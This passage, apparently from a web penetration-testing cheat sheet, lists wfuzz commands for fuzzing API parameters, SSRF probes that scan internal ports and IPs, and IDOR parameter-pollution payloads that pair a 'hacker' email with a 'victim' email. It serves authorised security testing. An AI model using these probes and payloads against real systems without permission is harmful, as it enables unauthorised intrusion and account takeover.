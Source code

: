 Fuzz parameters:

```fundamental
wfuzz -t 30 -f wfuzz_results.txt --hc 404,405 -X GET -u "https://somesite.com/someapi?WFUZZ=somevalue" -w somewordlist.txt

wfuzz -t 30 -f wfuzz_results.txt --hc 404,405 -X POST -H "Content-Type: application/x-www-form-urlencoded" -u "https://somesite.com/someapi" -d "WFUZZ=somevalue" -w somewordlist.txt

wfuzz -t 30 -f wfuzz_results.txt --hc 404,405 -X POST -H "Content-Type: application/json" -u "https://somesite.com/someapi" -d "{\"WFUZZ\": \"somevalue\"}" -w somewordlist.txt
```

Additional example, internal SSRF fuzzing:

```fundamental
wfuzz -t 30 -f wfuzz_results.txt --hc 404,405 -X GET -u "https://somesite.com/someapi?url=127.0.0.1:WFUZZ" -w ports.txt

wfuzz -t 30 -f wfuzz_results.txt --hc 404,405 -X GET -u "https://somesite.com/someapi?url=WFUZZ:80" -w ips.txt
```

| Option | Description |
| --- | --- |
| -f | Store results in the output file |
| -t | Specify the number of concurrent connections (10 default) |
| -s | Specify time delay between requests (0 default) |
| -u | Specify a URL for the request |
| -w | Specify a wordlist file |
| -X | Specify an HTTP method for the request, i.e., HEAD or FUZZ |
| -b | Specify a cookie for the requests |
| -d | Use post data |
| -H | Use header |
| --hc/--hl/--hw/--hh | Hide responses with the specified code/lines/words/chars |
| --sc/--sl/--sw/--sh| Show responses with the specified code/lines/words/chars |
| --ss/--hs| Show/hide responses with the specified regex within the content |

### Insecure Direct Object Reference (IDOR)

First, try to simply change one value to another, e.g., change `victim@gmail.com` to `hacker@gmail.com`, change some ID from `1` to `2`, etc.

It is likely that lower number IDs will relate to some higher privilege accounts or roles.

Second, try parameter pollution:

```fundamental
"email":"hacker@gmail.com,victim@gmail.com"
"email":"hacker@gmail.com victim@gmail.com"
"email":"hacker@gmail.com","email":"victim@gmail.com"
"email":"victim@gmail.com,hacker@gmail.com"
"email":"victim@gmail.com hacker@gmail.com"
"email":"victim@gmail.com","email":"hacker@gmail.com"
"email":("hacker@gmail.com","victim@gmail.com")
"email":["hacker@gmail.com","victim@gmail.com"]
"email":{"hacker@gmail.com","victim@gmail.com"}
"email":("victim@gmail.com","hacker@gmail.com")
"email":["victim@gmail.com","hacker@gmail.com"]
"email":{"victim@gmail.com","hacker@gmail.com"}
email=hacker%40gmail.com,victim%40gmail.com
email=hacker%40gmail.com%20victim%40gmail.com
email=hacker%40gmail.com&email=victim%40gmail.com
email[]=hacker%40gmail.com&email[]=victim%40gmail.com
```